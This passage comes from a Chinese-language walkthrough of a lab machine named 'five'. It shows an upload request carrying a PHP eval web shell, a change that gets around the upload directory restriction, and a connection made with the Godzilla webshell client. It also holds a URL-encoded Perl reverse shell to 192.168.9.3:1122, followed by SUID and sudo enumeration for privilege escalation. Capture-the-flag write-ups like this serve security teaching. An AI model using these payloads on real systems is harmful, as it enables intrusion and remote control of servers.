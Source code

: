 ```Python
Priority: u=0, i

-----------------------------170435815133440741313678117785
Content-Disposition: form-data; name="fileToUpload"; filename="1.php"
Content-Type: application/octet-stream

<?php
eval($\_POST["pass"]);

-----------------------------170435815133440741313678117785
Content-Disposition: form-data; name="directory"

/uploads
-----------------------------170435815133440741313678117785
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------170435815133440741313678117785--
```
可能是文件上传目录进行了限制。我们将/uploads修改为./

成功上传且可以访问http://192.168.9.8/1.php

直接用哥斯拉连接上去

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.007.png)

重新上传一个系统马反弹shell

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.008.png)

```HTML
pass=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.9.3%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.009.png)

## 5. 4.提权

```Bash
(remote) www-data@five:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/man
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/more
(remote) www-data@five:/var/www/html$ sudo -l 
Matching Defaults entries for www-data on five:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
```